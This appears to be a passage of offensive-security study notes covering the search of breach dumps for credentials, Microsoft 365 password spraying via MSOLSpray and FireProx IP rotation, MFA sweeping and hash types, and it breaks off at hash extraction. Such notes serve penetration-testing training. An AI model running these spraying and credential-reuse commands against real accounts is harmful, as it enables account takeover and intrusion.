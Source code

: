 * Reuse of credentials from unrelated breaches
* Easy access via breach corpuses (e.g., HaveIBeenPwned)

### Commands

```bash
grep -i '@domain.com' breach.txt
grep -i username breach.txt
```

---

## Microsoft 365 Attacks

### Authentication API

* `/common/oauth2/token` endpoint gives detailed auth responses

### MSOLSpray with FireProx

```bash
python3 fire.py --command create --region us-east-1 --url https://login.microsoft.com
```

```powershell
Invoke-MSOLSpray -UserList users.txt -URL <fireprox-url> -Password Password123!
```

### MFA Bypass Detection

* Exploit weak conditional access policies
* Detect changes in account/mailing permissions via audit logs

```powershell
Get-MsolUser -All | Where {$_.IsLicensed} | Select DisplayName, Licenses
```

### MFA Verification

```powershell
Invoke-MFASweep -Username user -Password pass
```

---

## Password Hashes & Cracking

### Hashing Algorithms

* **Windows**: LANMAN, NT (NTLM)
* **Linux/UNIX**: DES, MD5, SHA256, SHA512, Blowfish
* **Modern**: PBKDF2, Argon2, Scrypt, Yescrypt

### Hash Extraction
